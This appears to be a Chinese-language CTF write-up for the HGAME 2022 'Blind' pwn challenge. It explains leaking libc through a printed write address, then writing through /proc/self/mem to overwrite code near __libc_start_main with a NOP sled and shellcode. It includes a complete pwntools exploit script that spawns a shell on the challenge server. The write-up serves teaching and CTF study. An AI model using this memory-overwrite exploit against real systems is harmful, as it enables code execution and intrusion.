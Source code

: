 ```yaml
---
title: HGAME 2022 - WEEK2 _ Pwn _ Writeups
date: 2022-02-17 12:57:36
tags: ['CTF', 'Pwn', ]
categories: ['CTF']
authors: [nova]
index_img: https://novanoir.moe/img/banner_categories.jpg
banner_img: https://novanoir.moe/img/banner_categories.jpg

---
```


<!--truncate-->

# Blind

>  看题目简介应该是BROP的东西，也发现确实没有附件
>
>  完全没做过BROP的题，试试
>
>  [CTF-WIKI_BROP](https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/medium-rop/#brop)

首先先查看一下程序会干什么

![image-20220217140202100](https://cdn.novanoir.moe/img/image-20220217140202100.png)

可以看到程序首先给出了`write`的地址，但是由于原创我们不知道libc的版本，虽然也可以根据低12位来找到libc版本，但是我们选择`LibcSearcher`会更快一些

这样的话`libc_base`是很容易找到的

```python
sh.recvuntil(b"write: ")
write_addr = int(sh.recvuntil(b"\n", drop=True), 16)
success(">>> write_addr: {}".format(hex(write_addr)))

libc = LibcSearcher('write', write_addr)
libc_base = write_addr - libc.dump('write')
success(">>> libc_base: {}".format(hex(libc_base)))
```

接着它让我们可以打开一个文件

![image-20220217140449422](https://cdn.novanoir.moe/img/image-20220217140449422.png)

介绍一下`/proc/`的一些相关内容

## /proc/

Linux系统内核提供了一种通过/proc文件系统，在程序运行时访问内核数据，改变内核设置的机制。/proc是一种伪文件结构，也就是说是仅存在于内存中，不存在于外存中的。/proc中一般比较重要的目录是sys，net和scsi，sys目录是可写的，可以通过它来访问和修改内核的参数。

/proc中还有一些以PID命名（进程号）的进程目录，可以读取对应进程的信息。另外还有一个/self目录，用于记录本进程的信息

### /proc/self/

这就相当于一个软链接，不同的PID访问这个目录进入的实质上是不同的/proc/$(PID)/

#### /proc/self/maps

这个文件用于记录当前进程的内存映射关系，类似于gdb下的vmmap指令，通过读取该文件可以获得内存代码段基地址

#### /proc/self/mem

该文件记录的是进程的内存信息，通过修改该文件相当于直接修改进程的内存。这个文件是可读可写的，但是如果直接读的话则会报错。

需要根据`/proc/self/maps`的映射信息来修改`offset`的`val`

如果我们将一段代码写到`.text`上，则该地址的代码就变成了`disasm(val)`



因此，我们很自然地想到把shellcode写上去，但由于没有源文件，我们也不能清楚究竟程序执行到了什么地方，也就没有办法控制程序准确跳转到`shellcode`开始的地方

## Shellcode Spray 

此时如果我们把地址上下文都改成nop，并在最后添加一段`shellcode`

这样，只要程序执行到了任意`nop`所在的位置，便都可以正常执行`shellcode`

因此，我们不妨修改`__libc_start_main`开始的一大段地址都为`nop`，这能保证程序一定被`nop`覆盖

exp:

```python
import string

from pwn import *
from pwnlib.util.iters import mbruteforce
from LibcSearcher import LibcSearcher

context.log_level = 'DEBUG'
context.arch = 'amd64'
context.os = 'linux'

sh = remote('chuj.top', 51812)

sh.recvuntil(b' == ')
hash_code = sh.recvuntil(b"\n", drop=True).decode('UTF-8')
charset = string.ascii_letters
# print(hash_code, type(hash_code))
proof = mbruteforce(lambda x: hashlib.sha256(x.encode()).hexdigest() ==
                              hash_code, charset, 4, method='fixed')

sh.sendlineafter(b"????> ", proof.encode())

sh.recvuntil(b"write: ")
write_addr = int(sh.recvuntil(b"\n", drop=True), 16)
success(">>> write_addr: {}".format(hex(write_addr)))

libc = LibcSearcher('write', write_addr)
libc_base = write_addr - libc.dump('write')
success(">>> libc_base: {}".format(hex(libc_base)))

sh.sendlineafter(b">> ", b'/proc/self/mem\x00')

__libc_start_main_addr = libc_base + libc.dump('__libc_start_main')
success(">>> __libc_start_main: {}".format(hex(__libc_start_main_addr)))
sh.sendlineafter(b">> ", str(__libc_start_main_addr).encode())

payload = asm('nop') * 0x300 + asm(shellcraft.sh())
sh.sendlineafter(b">> ", payload)

sh.interactive()
```



